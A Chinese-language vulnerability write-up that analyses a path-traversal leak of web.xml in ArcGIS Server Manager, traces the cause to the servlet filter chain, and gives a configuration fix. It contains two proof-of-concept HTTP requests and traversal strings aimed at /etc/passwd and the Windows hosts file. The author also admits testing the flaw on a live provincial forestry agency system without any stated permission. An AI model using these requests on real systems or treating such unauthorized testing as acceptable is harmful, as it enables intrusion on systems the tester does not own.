




# ArcGIS Server Manager网站配置文件泄露漏洞原理解析

## 前文
><big>**查阅网络资料，发现很多文章都夸张的命名为“任意文件读取”（尤其是那种卖培训的）。实际上这个只能读web.xml这种没有敏感信息的文件，毛用都没，而且搜到的基本在修复方法原理里面也都是一句“但详细原理尚不明确”盖过。因此特意实战测试和配置分析，总结清楚这个漏洞原理。**</big>

## 漏洞原理
**互联网搜索到的：此漏洞在ArcGIS Server 10.2 for Windows上被发现，在启用了ArcGIS Server Manager服务时，通过GET请求 [主机+端口]/arcgis/manager/3370/js/../WEB-INT/web.xml 地址，任意用户可获取ArcGIS的manager应用服务配置。**<br>
***实际拓展：并不光/js才可以，/css也可以实现。***<br>

### 1、关键过滤器：ManagerOneYearCache
**对于 /arcgis/manager/3370/js/../WEB-INF/web.xml ,在你的配置中，ManagerOneYearCache 过滤器明确映射到了 *.js 和 *.css。这意味着，所有对JS和CSS文件的请求，都必须先经过它处理（主要是添加一年的缓存头）。**<br>



### 2、过滤器链的顺序：
**当一个请求 …/3370/js/../WEB-INF/web.xml 到来时，其处理流程如下：**<br>
>请求 → FQDNFilter (匹配`/*`) → ManagerOneYearCache (匹配`*.js`) → BuildNumFilter (匹配`/3370/*`) → 目标资源<br>

**由于路径中包含了 /js/，它被识别为一个JS资源请求，因此顺利通过了 ManagerOneYearCache 过滤器。之后，因为其路径匹配 /3370/*，才得以进入存在缺陷的 BuildNumFilter，并触发路径遍历漏洞。**<br>



### 3、为什么其他目录不行：
**像 /images/ 或 /proxy/ 等目录下的请求，因为没有配置其他必须经过的过滤器，它们可能在更早的容器层面就被以不同的方式处理或拒绝，导致无法“触发”到 BuildNumFilter 中那段有问题的路径处理逻辑。<br>**

<big>**简单来说**</big>：**/js/和/css/像是两个拥有“特殊通行证”的入口，这个通行证就是ManagerOneYearCache过滤器。只有拿着这个通行证的请求，才能被“引荐”到有漏洞的BuildNumFilter面前。<br>**
## 漏洞危害
**低（被泄露的文件不包含机密信息）**
## 漏洞复现
***懒得本地部署，直接在某省林业单位系统上复现（因为不涉及敏感文件所以问题不大）<br>***
POC1
```
GET /arcgis/manager/3370/js/../WEB-INF/web.xml HTTP/1.1
Host: xxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36 Edg/143.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```
POC2
```
GET /arcgis/manager/3370/css/../WEB-INF/web.xml HTTP/1.1
Host: xxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36 Edg/143.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```




## 修复方法
>将web.xml中的/3370/*给拆分成三条
原配置文件
```xml
<filter-mapping>
    <filter-name>BuildNumFilter</filter-name>
    <url-pattern>/3370/*</url-pattern>
    <dispatcher>REQUEST</dispatcher>

    <dispatcher>INCLUDE</dispatcher>
    <dispatcher>FORWARD</dispatcher>
</filter-mapping>
```
修改后配置文件
```xml
<!-- 正确写法：三条独立的 mapping -->
<filter-mapping>
    <filter-name>BuildNumFilter</filter-name>
    <url-pattern>/3370/js/*</url-pattern>
    <!-- 调度器配置也必须每个mapping都写一遍 -->
    <dispatcher>REQUEST</dispatcher>
    <dispatcher>INCLUDE</dispatcher>
    <dispatcher>FORWARD</dispatcher>
</filter-mapping>
<filter-mapping>
    <filter-name>BuildNumFilter</filter-name>
    <url-pattern>/3370/css/*</url-pattern>
    <dispatcher>REQUEST</dispatcher>
    <dispatcher>INCLUDE</dispatcher>
    <dispatcher>FORWARD</dispatcher>
</filter-mapping>
<filter-mapping>
    <filter-name>BuildNumFilter</filter-name>
    <url-pattern>/3370/proxy/*</url-pattern>
    <dispatcher>REQUEST</dispatcher>
    <dispatcher>INCLUDE</dispatcher>
    <dispatcher>FORWARD</dispatcher>
</filter-mapping>
```
**修复的原理其实也很简单，就像前面在漏洞原理里面讲到的：**
>请求 → FQDNFilter (匹配/*) → ManagerOneYearCache (匹配*.js) → BuildNumFilter (匹配/3370/*) → 目标资源<br

修改后校验路径为/3370/js等下一级路径，那么匹配/3370/*就会失效，自然就无法读取web.xml文件,因为其他文件本就无法读取，所以只需要让攻击者无法拼接web.xml路径就可以了。

>1、对比访问其他受保护文件：<br>
>- 请求：/arcgis/manager/3370/js/../WEB-INF/classes/ (或任何已知的 .class 文件)
>- 预期结果：403 (禁止) 或 404。这证明容器级别的保护在生效。<br>

>2、测试非跳板目录：
>- 请求：/arcgis/manager/3370/images/../WEB-INF/web.xml
>- 结果：404。证明必须通过特定过滤器链 (ManagerOneYearCache) 才能抵达漏洞点.

>3、尝试读取容器外的文件：
>- 请求：/arcgis/manager/3370/js/../../../../etc/passwd
>- 请求：/arcgis/manager/3370/js/../../../../../../../../../../C:/Windows/System32/drivers/etc/hosts 
>- 预期结果：404。证明漏洞的路径遍历能力被限制在该Web应用目录内，无法逃逸至服务器文件系统。
## AI总结
**简单来说，这不是一个通用的任意文件读取漏洞。它是一个在特定过滤器中对特定路径（/WEB-INF/web.xml）处理不当导致的“信息泄露”。漏洞的威力被严格限制在Java容器的安全沙箱内，而 web.xml 成为了这个沙箱因设计巧合而产生的一道裂缝。**